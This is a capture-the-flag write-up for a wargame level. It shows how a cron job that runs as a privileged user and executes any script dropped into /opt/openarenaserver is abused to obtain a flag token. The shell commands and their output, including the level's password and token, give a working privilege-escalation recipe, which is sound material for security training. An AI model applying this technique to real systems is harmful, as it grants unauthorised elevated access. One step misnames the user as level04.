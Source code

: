 # Level05 - Flag05

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level05 | `ne2searoevaevoem4ov4ar8ap` |
| flag05  |                             |
| token   | `viuaaale9huek52boumoomioc` |

## Steps to resolve on VM

1. Connect to `level05` user and notice there is a new mail

```bash
su level04
# Enter the token
> You have new mail.
```

2. Check the mail

```bash
cat /var/mail/level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
# We can notice that we have a cron job schedule
# Every 2 minutes, it will execute a script at '/usr/sbin/openarenaserver' with flag05 user
```

3. Check the cron job

```bash
# By listing this script we notice the '+' permission, which means 'extended permissions"
ls -l /usr/sbin/openarenaserver
> -rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

# Indeed, we can check that it has the same permissions from flag05 user
getfacl /usr/sbin/openarenaserver
> getfacl: Removing leading '/' from absolute path names
> # file: usr/sbin/openarenaserver
> # owner: flag05
> # group: flag05
> user::rwx
> user:level05:r--
> group::r-x
> mask::r-x
> other::---

cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>        (ulimit -t 5; bash -x "$i")
>        rm -f "$i"
> done
# This script is going to execute everyscripts inside /opt/openarenaserver/
# And then delete it

```

4. Prepare the script to be launched with crontab and get the flag05

```bash
# First add the cron job into crontab
(crontab -l ; cat /var/mail/level05)| crontab -

# Then create the script in the cron job scripts location
echo "getflag > /tmp/flag05" > /opt/openarenaserver/script
chmod +x /opt/openarenaserver/script

# Then display the output after 2 minutes because of the cron job schedule
sleep 2m && cat /tmp/flag05
> [1]-  Done                    sleep 2m
> Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## Sources

### SHELL

- [Cron editor](https://crontab.guru/#*/2_*_*_*_*)
- [Crontab intro](https://www.linuxtricks.fr/wiki/cron-et-crontab-le-planificateur-de-taches)
- [Crontab add job](https://stackoverflow.com/questions/8579330/appending-to-crontab-with-a-shell-script-on-ubuntu)
- [ulimit](https://linuxhint.com/linux_ulimit_command/)
- ['+' at the end of permissions](https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l)